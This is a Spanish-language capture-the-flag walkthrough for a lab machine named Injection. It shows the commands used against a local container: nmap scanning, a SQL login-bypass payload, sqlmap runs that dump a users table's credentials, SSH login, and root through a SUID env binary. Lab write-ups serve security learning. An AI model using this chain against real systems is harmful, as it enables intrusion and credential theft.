 Maquina: Injection

Autor: El Pinguino de Mario 

Dificultad: Muy Facil

![Screenshot 2024-11-09 082542](https://github.com/user-attachments/assets/beff2ae3-6fc1-423c-9942-ee17e022a9fe)

ping 172.17.0.2 -c 1

![Screenshot 2024-11-09 082716](https://github.com/user-attachments/assets/49213ad6-4d2d-4b3d-bc3c-2cbbc52a0c22)

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

![Screenshot 2024-11-09 082735](https://github.com/user-attachments/assets/d95bd4a3-c56a-40b1-9b07-f9d5d7f2504f)

Accedemos a la web y encontramos un panel de login e intentamos explotarlo con una SQL Injection
hppt://172.17.0.2
User: admin' or 1=1-- -
Password: cualquier cosa
No conseguimos bypasearlo

![Screenshot 2024-11-09 083004](https://github.com/user-attachments/assets/150da53c-3e35-4470-bb0e-2338038a81ac)

Vamos a probar una inyección SQL

sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch

![Screenshot 2024-11-09 083557](https://github.com/user-attachments/assets/d435b4c8-6eff-4c0b-9692-74ce3c7824d8)

sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch

![Screenshot 2024-11-09 083619](https://github.com/user-attachments/assets/66b1f52d-5f4a-4ffd-9c10-c53960be4cc5)

sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch

![Screenshot 2024-11-09 083644](https://github.com/user-attachments/assets/d3397b42-e733-4c92-884a-0672f800f1b5)

Por último, listamos las dos columnas que hay: passwd y usernames, y tenemos credenciales

![Screenshot 2024-11-09 083708](https://github.com/user-attachments/assets/64ee63fd-ec08-4d03-b11c-330228afc80c)

sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,usernames --dump --batch

Ahora, si accedemos a la web, nos dice lo siguiente:

![Screenshot 2024-11-09 083851](https://github.com/user-attachments/assets/f09fa5eb-175c-46ca-8bd1-fd715a1888dd)

ssh dylan@172.17.0.2

![Screenshot 2024-11-09 083940](https://github.com/user-attachments/assets/f7e7b3ae-bcad-4d29-a974-0061dd61f303)

find / -perm -4000 2>/dev/null

Encontramos el binario env

![Screenshot 2024-11-09 084245](https://github.com/user-attachments/assets/dcefe9d7-fc4a-4de7-bf93-2de3a2d23519)

Vamos a explotarlo haciendo una búsqueda en GTFOBins

/usr/bin/env /bin/sh -p

whoami

![Screenshot 2024-11-09 084333](https://github.com/user-attachments/assets/1c8f5581-a48d-44c3-ab65-339d7d6972de)

